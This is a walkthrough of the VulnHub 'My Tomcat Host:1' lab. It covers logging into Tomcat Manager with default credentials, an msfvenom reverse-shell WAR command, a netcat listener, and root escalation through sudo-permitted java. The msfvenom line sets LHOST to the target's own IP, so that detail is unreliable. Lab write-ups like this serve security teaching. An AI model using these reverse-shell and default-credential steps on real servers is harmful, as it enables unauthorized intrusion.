

# My Tomcat Host:1 - VulnHub

[My Tomcat Host:1 VulnGub link](https://www.vulnhub.com/entry/my-tomcat-host-1,457/)

### arp scan to find out our machine ip address on the network

we found out our target ip address is 192.168.56.102

## Nmap
first we need to check what ports and services are available for us in the target machine using nmap tool:

*command exaplain:*
*nmap* - network scanner tool used to discover hosts and services on machines.
*-sC* - preforming script scan using default scripts.
*-sV* - preforming service version detection.
*-oA* - output in all formats.
*-Pn* - treating the host as online - skip host discovery (it was necessary for nmap scan on this machine).

it is recommanded to scan the machine at the background for all ports while enumerating the machine, since all ports scan found the same port I wont show it.

from the nmap scan we discovered 2 ports are open:
*port 22* - ssh OpenSSH.
*port 8080* - http Apache Tomcat 9.0.31.

## Apache Tomcat:
if we browse to the the link:
 http://192.168.56.102:8080/
we got the Tomcat's welcome screen:

if we try to enter the Manager App we get a authentication request:

after searching the default username and password of tomcat version 9/8 on goole we found:
username: tomcat
password: tomcat

and we got in!

now from the manager page we can uplaod new service applications to the server.
lets upload a java WAR file reverse shell to get a shell to the machine.

## Reverse shell:
first lets create a reverse shell in java to WAR file using msfvenom and run netcat listener on port 1234:

*command explain:*
*msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.102 LPORT=1234 -f war > shell.war*
*msfvenom* - rapid7 (creators of metasploit tool) tool for payload generation.
*-p* - payload to use.
*LHOST* - attacker ip address.
*LPORT* - attacker ip port.
*-f* - output format.
generating payload into shell.war file.

*nc -lvp 1234*
*nc* - netcat, tcp and udp tool for connections and listens.
*-l* - listen for connections.
*-v* - verbose output.
*-p* - port number.

let's upload the war file into the tomcat website using the service war upload in the manager page:

if we browse to the service url: http://192.168.56.102:8080/shell/
we got a shell!
let's get a normal shell using python pty:

let's see our sudo allowed commands:

we can run java as root!
lets use the same method we got the reverse shell to get a root access but this time we create a jar file.
we send the jar file to the target machine using python SimpleHTTPServer and wget in tmp folder ( we got write permissions), using metasploit to connect to the reverse shell:
*on the attacker machine:*

*on the target machine:*

*fire up metasploit and set up the exploit:*

*run the jar file in th target machine:*

and we got root access!!

